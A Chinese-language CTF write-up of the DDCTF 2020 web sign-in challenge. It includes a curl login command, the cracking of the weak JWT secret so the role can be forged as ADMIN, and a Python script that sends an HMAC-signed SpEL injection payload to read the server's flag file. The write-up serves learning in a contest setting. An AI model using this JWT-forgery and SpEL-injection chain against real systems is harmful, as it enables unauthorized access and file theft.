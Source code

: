 ```yaml
---
title: DDCTF 2020 Writeup
date: 2020-09-07 21:48:48
tags: [ddctf, web]
---
```


今年改了赛制, 可以两人组队, 我觉得改的还是不错的, 终于不用现场表演学习逆向和 pwn 了, 成功和 Ary 师傅打到了第三 233



## WEB

### Web签到题

访问 http://117.51.136.197/hint/1.txt 得到使用说明，
```
curl http://117.51.136.197/admin/login -d 'username=1&pwd=1' -vv
```
拿到 token
```
{"code":0,"message":"success","data":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyTmFtZSI6IjEiLCJwd2QiOiIxIiwidXNlclJvbGUiOiJHVUVTVCIsImV4cCI6MTU5OTQ2OTA0Mn0.fONrD0R3NLTybq2WEP5V7uWTBI_0T0E5utI3MZFngMU"}
```
明显的 jwt，需要用这个来 auth，用 `https://github.com/brendan-rius/c-jwt-cracker` 爆破出来 secret 是 1，修改 userRole 到 ADMIN 就可以拿到客户端的地址 http://117.51.136.197/B5Itb8dFDaSFWZZo/client

逆向一下得到用签名算法用的是 hmac，key 是 DDCTFWithYou，fuzz 了半天发现是 spel，直接命令执行似乎不行，于是根据提示给的 flag 位置直接读 flag 即可

```python
import time
import hmac
import base64
import requests

cmd = "{'a': T(java.nio.file.Files).readAllLines(T(java.nio.file.Paths).get('/home/dc2-user/flag/flag.txt'))}"
ts = int(time.time())

sign = base64.b64encode(hmac.new(b'DDCTFWithYou',msg=f"{cmd}|{ts}".encode(), digestmod='sha256').digest())

'''{"signature":"65+KmCKrBVr6UAsjvSZ/iu1bdpx5xmIJLmAX2Squksk=","command":"'ls'","timestamp":1599189389}'''

res = requests.post('http://117.51.136.197/server/command', json={
    'signature': sign.decode(),
    'command': cmd,
    'timestamp': ts
})

print(res.text)
```
